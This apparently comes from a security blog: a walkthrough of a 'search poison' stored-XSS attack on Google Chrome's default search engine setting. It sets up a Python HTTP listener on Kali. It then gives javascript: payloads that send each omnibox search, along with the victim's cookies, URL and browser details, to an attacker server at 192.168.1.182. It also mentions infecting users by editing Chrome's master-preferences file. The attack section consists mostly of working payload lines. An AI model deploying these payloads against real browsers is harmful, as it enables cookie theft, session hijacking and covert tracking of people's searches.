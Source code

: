 Google Chrome Search Poison – Default Search Engine Exploit
##Introduction
In December 2015, I discovered a vulnerability in Google Chrome's default search engines feature whereby a lack of input sanitation allows an attacker to store XSS in the victim's browser. This stored XSS is then executed whenever the victim searches using the omnibox.<br>
In this walkthrough we'll set up a Python SimpleHTTPServer and intercept the victim’s Cookies and search keywords.<br>
<br>
Note: The vulnerability has been reported to the Chromium team but they will not fix the issue.
##Video Demo
<div align="center">
<iframe width="420" height="315" src="http://www.youtube.com/embed/WoF-LkA6fMk?autoplay=0"></iframe>
</div>

The video demonstration involves manipulation of the chrome master-preferences file to infect the user with the malicious search engine. The user is then directed to the attackers apache server, which extracts the search query, cookies and other system information and seamlessly directs them back to their search.<br>

##Walkthrough - Setting up the Listener in Kali
<code>
<div class="code">
root@kali:~$ <com>python -m SimpleHTTPServer 80</com>
</div>
</code>
##Setup on Victim Machine
1. Go into **"Settings"** in Google Chrome<br>
2. Click on **"Manage Search Engines"**<br>
3. Enter your malicious JS and click **"Make Default"**<br>

##Example
<code>
<div class="code">
<com>javascript:window.location='http://192.168.1.182/%s'+escape(document.cookie);</com>
</div>
</code>
Note: 192.168.1.182 is our SimpleHTTPServer.<br>
Now whenever the victim searches using Google Chrome’s Omnibox, the malicious JS will trigger, forwarding you their cookie and search string (%s).<br>
##Other examples
<code>
<div class="code">
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.cookie);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.baseURI);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.domain);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.URL);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(location.host);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appCodeName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appVersion);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.userAgent);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.product);
</div>
</code>

Tags: search-poison
